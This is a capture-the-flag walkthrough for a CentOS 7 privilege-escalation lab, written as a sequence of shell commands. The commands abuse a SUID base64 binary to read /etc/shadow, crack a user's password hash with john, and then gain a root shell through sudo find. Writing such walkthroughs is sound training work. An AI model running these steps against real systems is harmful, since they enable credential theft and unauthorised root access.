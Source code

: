 Task 1: What is the content of flag1.txt

Task 2: What is the content of flag2.txt

First we need to enumerate the system.

We find that this is a CentOS 7 server with 3.10.0 linux kernel and we couldn't find any easy to exploit kernel vulnerability. Let's read /etc/passwd file. 

```bash
$cat /etc/passwd | grep home
```
We found 1 other user. So try to read the shadow file with ```$sudo cat /etc/shadow``` This user can't run sudo command, so we can't see the shadow file. So, let's try to find any luck with SGID or SUID. 

```bash
$find / -type f -perm -04000 -ls 2>/dev/null
```

We have base64 with suid bit set to it so let's read the shadow file using base64

```bash
$base64 /etc/shadow | base64 -d | grep missy | cut -d ":" -f 2,3 > missy.hash
```
Now break the hash using john. with ```$john missy.hash --wordlist=/usr/share/wordlists/rockyou.txt``` and voila we got the password

Login as missy ```su - missy``` 

Try to find any flag that is present in under missy's access level

```bash
$find / -name flag*.txt 2>/dev/null
```

We got a hit. Now we can read flag1.txt. Now list sudo permission for missy. ```$sudo -l``` we have got that missy can run find with sudo and doesn't require any password. So, let's break into root using find as we have got earlier 

```bash
$sudo find . -exec /bin/bash \; -quit
```